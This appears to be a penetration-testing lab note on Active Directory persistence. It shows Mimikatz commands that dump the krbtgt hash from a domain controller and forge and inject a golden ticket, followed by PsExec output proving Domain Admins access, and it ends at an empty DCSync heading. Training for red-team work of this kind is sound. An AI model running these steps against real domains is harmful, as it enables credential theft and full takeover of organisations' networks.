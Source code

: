 # Active Directory Persistance

## Golden Tickets

Going back to the explanation of Kerberos authentication, we recall that when a user submits a request for a TGT, the KDC encrypts the TGT with a secret key known only to the KDCs in the domain. This secret key is actually the password hash of a domain user account called krbtgt.

If we are able to get our hands on the krbtgt password hash, we could create our own self-made custom TGTs, or golden tickets.&#x20;

For example, we could create a TGT stating that a non-privileged user is actually a member of the Domain Admins group, and the domain controller will trust it since it is correctly encrypted.

{% code title="Failed attempt to perform lateral movement" overflow="wrap" lineNumbers="true" %}
```
C:\Tools\SysinternalsSuite>PsExec64.exe \\DC1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access DC1:
Access is denied.

```
{% endcode %}

To simulate this, we'll log in to the domain controller with remote desktop using the jeffadmin account. Then we will run Mimikatz from C:\Tools, and issue the lsadump::lsa command as displayed below:

{% code title="Dumping the krbtgt password hash using Mimikatz" overflow="wrap" lineNumbers="true" %}
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```
{% endcode %}

Having obtained the NTLM hash of the krbtgt account, along with the domain SID, we can now forge and inject our golden ticket.

Creating the golden ticket and injecting it into memory does not require any administrative privileges and can even be performed from a computer that is not joined to the domain.

We'll take the hash and continue the procedure from a compromised workstation.

Let's move back to CLIENT74 as the jen user. Before we generate the golden ticket let's launch mimikatz and delete any existing Kerberos tickets with kerberos::purge.

{% code title="Purging existing Kerberos Tickets" overflow="wrap" lineNumbers="true" %}
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK

```
{% endcode %}

Now, we'll supply the domain SID (which we can gather with whoami /user) to the Mimikatz kerberos::golden command to create the golden ticket.

This time, we'll use the /krbtgt option instead of /rc4 to indicate we are supplying the password hash of the krbtgt user account. Starting July 2022, Microsoft improved the authentication process, so we'll need to provide an existing account. Let's set the golden ticket's username to jen. Before it didn't matter if the account existed.

{% code title="Creating a golden ticket using Mimikatz" overflow="wrap" lineNumbers="true" %}
```
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800

```
{% endcode %}

Mimikatz provides two sets of default values when using the golden ticket option: the user ID and the groups ID. The user ID is set to 500 by default, which is the RID of the built-in administrator for the domain. The values for the groups ID consist of the most privileged groups in Active Directory, including the Domain Admins group.

With the golden ticket injected into memory, let's use PsExec\_ to launch a new command prompt with misc::cmd.

{% code title="Using PsExec to access DC01" overflow="wrap" lineNumbers="true" %}
```
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com


C:\Windows\system32>ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5cd4:aacd:705a:3289%14
   IPv4 Address. . . . . . . . . . . : 192.168.50.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254
C:\Windows\system32>whoami
corp\jen
```
{% endcode %}

{% code title="Performing lateral movement and persistence using the golden ticket and PsExec" overflow="wrap" lineNumbers="true" %}
```
C:\Windows\system32>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes    
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                      Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
CORP\Domain Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-512 Mandatory group, Enabled by default, Enabled group
CORP\Group Policy Creator Owners            Group            S-1-5-21-1987370270-658905905-1781884369-520 Mandatory group, Enabled by default, Enabled group
CORP\Schema Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-518 Mandatory group, Enabled by default, Enabled group
CORP\Enterprise Admins                      Group            S-1-5-21-1987370270-658905905-1781884369-519 Mandatory group, Enabled by default, Enabled group
CORP\Denied RODC Password Replication Group Alias            S-1-5-21-1987370270-658905905-1781884369-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level        Label            S-1-16-12288      
```
{% endcode %}

Perfect! Listing group memberships shows that we are now a member of multiple powerful groups including the Domain Admins group. Excellent.

Note that by creating our own TGT and then using PsExec, we are performing the overpass the hash attack by leveraging Kerberos authentication as we discussed earlier in this Module.

If we were to connect PsExec to the IP address of the domain controller instead of the hostname, we would instead force the use of NTLM authentication and access would still be blocked. This is illustrated in the listing below.

{% code title="Use of NTLM authentication blocks our access" overflow="wrap" lineNumbers="true" %}
```
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.50.70:
Access is denied.

```
{% endcode %}



## Domain controller synchronization

DCSYNC
